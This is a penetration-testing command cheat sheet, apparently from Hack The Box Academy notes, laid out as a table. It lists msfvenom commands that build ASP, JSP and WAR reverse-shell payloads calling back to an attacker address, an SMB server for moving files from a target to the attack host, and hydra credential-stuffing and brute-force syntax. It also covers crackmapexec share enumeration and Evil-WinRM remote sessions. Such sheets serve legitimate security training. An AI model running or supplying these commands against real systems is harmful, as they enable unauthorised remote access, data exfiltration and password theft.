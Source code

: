 | ``msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp`` | MSFvenom command used to generate a ASP web reverse shell payload |

| ``msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp`` | MSFvenom command used to generate a JSP web reverse shell payload |

| ``msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war`` | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload |

| `--------------------------------------------------------------------------` | ----------------------------------------------------------------------------------------------------------------------------------------------- |

| ``xfreerdp /v:<ip> /u:htb-student /p:HTB_@cademy_stdnt!`` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol. |

| ``evil-winrm -i <ip> -u user -p password`` | Uses Evil-WinRM to establish a Powershell session with a target. |

| ``ssh user@<ip>`` | Uses SSH to connect to a target using a specified user. |

| ``smbclient -U user \\\\<ip>\\SHARENAME`` | Uses smbclient to connect to an SMB share using a specified user. |

| ``python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/`` | Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host. |

| `---------------------------------------------------------------------------------------------------------------------------------------` | ------------------------------------------------------------------------------------------------------------------------------------------------------- |

| ``cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist`` | Uses cewl to generate a wordlist based on keywords present on a website. |

| ``hashcat --force password.list -r custom.rule --stdout > mut_password.list`` | Uses Hashcat to generate a rule-based word list. |

| ``./username-anarchy -i /path/to/listoffirstandlastnames.txt`` | Users username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential username. |

| ``curl -s https://fileinfo.com/filetypes/compressed \| html2text \| awk '{print tolower($1)}' \| grep "\." \| tee -a compressed_ext.txt`` | Uses Linux-based commands curl, awk, grep and tee to download a list of file extensions to be used in searching for files that could contain passwords. |

| `------------------------------------------------------------------------------------------------------` | ---------------------------------- |

| `**Credential Stuffing**` |  |

| `[DefaultCreds-cheat-sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet)` | For Credential Stuffing |

| ``hydra -C <user_pass.list> <protocol>://<IP>`` | Credential Stuffing - Hydra Syntax |

| `[Router Default Creds](https://www.softwaretestinghelp.com/default-router-username-and-password-list/)` |  |

| `----------------------------------------------------------------------` | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

| ``crackmapexec smb <ip> -u "user" -p "password" --shares`` | Uses CrackMapExec to enumerate smb shares on a target using a specified set of credentials. |

| ``hydra -L user.list -P password.list <service>://<ip>`` | Uses Hydra in conjunction with a user list and password list to attempt to crack a password over the specified service. |

| ``hydra -l username -P password.list <service>://<ip>`` | Uses Hydra in conjunction with a username and password list to attempt to crack a password over the specified service. |
